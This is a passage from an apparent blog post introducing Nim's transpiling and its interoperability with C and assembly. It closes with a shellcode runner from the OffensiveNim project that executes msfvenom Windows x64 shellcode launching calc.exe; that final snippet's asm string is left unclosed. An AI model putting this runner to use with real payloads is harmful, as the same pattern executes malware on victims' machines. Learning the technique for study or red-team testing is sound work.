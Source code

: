 Another cool feature Nim has is transpiling. Because I’ve learned this single word has the potential to make developers and Computer Science majors cringe, I’ll just be saying compiling instead. So, as we mentioned above, Nim is a flexible language, and this extends down to its compilation process. 

We won’t be diving too deep into the intricacies of how compilers and linkers work (mostly because I don’t have a good, or even decent, understanding of it myself), but Nim produces another language’s code prior to becoming machine code. 

Which language’s code does it produce? That’s entirely up to you! Nim can compile down to C, C++, Objective-C or even Javascript! We can write valid C code without ever having to touch C itself. How cool is that? One language to rule them all. Maybe that’s why the logo is a crown. 

_Side note: I think everyone should still learn C (or C++). Abstractions are cool and all, and make all our lives much easier, but it’s good to know what is really happening under the hood._

# Language Interoperability and Win32 API

In a similar vein to Nim’s ability to compile down to other language’s code, its language interoperability is topnotch as well. This means we can interface with other languages. The easiest languages to do this with is C and C++, but we can also use Assembly, .Net (C#, Powershell), VBA, and Python. 

Want to use C/C++? Throw it into the [.emit pragma] (https://nim-lang.org/docs/manual.html#implementation-specific-pragmas-emit-pragma): 
```nim
{.emit: """
static int cvariable = 420;
""".}

{.push stackTrace:off.}
proc embedsC() =
  var nimVar = 89
  # access Nim symbols within an emit section outside of string literals:
  {.emit: ["""fprintf(stdout, "%d\n", cvariable + (int)""", nimVar, ");"].}
{.pop.}

embedsC()
```

Or use the [importc pragma] (https://nim-lang.org/docs/manual.html#foreign-function-interface-importc-pragma) like so:

```nim
proc printf(formatstr: cstring) {.header: "<stdio.h>", importc: "printf", varargs.}
```

Likewise, other "import" pragmas also exist for Objective-C, C++, and Javascript. 

Want to run Assembly? Easy! This example is [from the Offensive Nim Github repo] (https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/shellcode_inline_asm_bin.nim)
```nim
proc runsc(): void =
    # msfvenom -p windows/x64/exec CMD=calc.exe EXITFUNC=thread -f csharp
    asm """
        .byte 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xc0,0x00,0x00,0x00,0x41,0x51,0x41,0x50,0x52,0x51,0x56,0x48,0x31,0xd2,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x48,0x8b,0x72,0x50,0x48,0x0f,0xb7,0x4a,0x4a,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x3c,0x61,0x7c,0x02,0x2c,0x20,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0xe2,0xed,0x52,0x41,0x51,0x48,0x8b,0x52,0x20,0x8b,0x42,0x3c,0x48,0x01,0xd0,0x8b,0x80,0x88,0x00,0x00,0x00,0x48,0x85,0xc0,0x74,0x67,0x48,0x01,0xd0,0x50,0x8b,0x48,0x18,0x44,0x8b,0x40,0x20,0x49,0x01,0xd0,0xe3,0x56,0x48,0xff,0xc9,0x41,0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,0x57,0xff,0xff,0xff,0x5d,0x48,0xba,0x01,0x00,0x00,0x00,0x00,0x00,0x00,0x00,0x48,0x8d,0x8d,0x01,0x01,0x00,0x00,0x41,0xba,0x31,0x8b,0x6f,0x87,0xff,0xd5,0xbb,0xaa,0xc5,0xe2,0x5d,0x41,0xba,0xa6,0x95,0xbd,0x9d,0xff,0xd5,0x48,0x83,0xc4,0x28,0x3c,0x06,0x7c,0x0a,0x80,0xfb,0xe0,0x75,0x05,0xbb,0x47,0x13,0x72,0x6f,0x6a,0x00,0x59,0x41,0x89,0xda,0xff,0xd5,0x63,0x61,0x6c,0x63,0x2e,0x65,0x78,0x65,0x00
```